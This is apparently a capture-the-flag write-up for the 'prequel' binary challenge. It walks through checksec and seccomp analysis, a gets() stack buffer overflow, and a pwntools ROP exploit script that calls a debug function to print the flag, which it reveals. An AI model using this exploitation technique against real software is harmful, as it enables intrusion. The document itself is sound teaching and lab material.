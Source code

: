 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages_debug.db` We will need to copy this to `messages.db` because the binary will read this file.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place, and there isn't a memory segment that is writeable and executable at the same time. We don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)
As you can see using execve and execveat results in terminating the process, so we can't get a shell without exploiting the kernel itself to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address. The stack canary protection written by the checksec is not true for the main method.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequel")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return-oriented programming (ROP), we can't just send a shellcode and jump there.
Fortunately, our job is quite easy because there is a function that prints out the flag using the debug `messages_debug.db` file. The function takes a number that determines the amount of the returned records.

![](screenshots/print_debug_flag.png)

We only need a pop rdi gadget now to set the first parameter in a function call, but luckily there is a function called `mary_poppins` that contains this gadget at the following memory address `0x401ff2` otherwise we could just use the tool `ROPgadget`.

```python
from pwn import *

context.binary = elf = ELF("./prequel")

p = process()

offset = 72
POP_RDI = 0x401FF2

payload = b"A" * 72 # padding
payload += p64(POP_RDI)
payload += p64(1337) # just a number that is greater than 3
payload += p64(elf.sym["print_debug_flag"]) # print_debug_flag's memory address

p.sendline(payload)
p.recvuntil(b"Prepared statement successfully\n")
flag = p.recvuntil(b"}").replace(b"\n", b"").decode() # delete line breaks

log.success("Got flag: " + flag)
```

Running the exploit on the remote server yields the following flag: `HCSC24{wh3n_y0ur_str1ngs_4r3_thE_M0stpr3c1ous_g4dG3t5}`